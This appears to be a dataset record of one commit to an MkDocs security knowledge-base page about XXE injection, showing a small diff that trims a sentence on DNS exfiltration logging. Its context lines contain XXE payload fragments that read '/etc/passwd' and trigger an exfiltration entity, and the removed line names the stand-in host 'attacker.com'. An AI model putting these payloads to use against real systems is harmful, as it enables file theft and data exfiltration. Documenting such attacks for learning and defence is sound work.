

Before and after one commit to HansMolemanPNG/hansmolemanpng.github.io, an MkDocs documentation site: the page built from docs/kb/injection-attacks/xxe.md, in a window 1280 px wide and 900 px high, scrolled down 38426 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update xxe.md

````diff
--- a/docs/kb/injection-attacks/xxe.md
+++ b/docs/kb/injection-attacks/xxe.md
@@ -1430,7 +1430,7 @@ When HTTP/HTTPS connections are blocked by firewall rules, DNS exfiltration prov
 %exfiltrate;
 ```
 
-Monitor DNS queries on `attacker.com` to capture data. Tools like `dnsdumpster` or custom DNS servers can log the queries. Services like **Interactsh** also provide automatic DNS logging:
+Services like **Interactsh** provide automatic DNS logging:
 
 ```xml
 <!ENTITY % file SYSTEM "file:///etc/passwd">
````
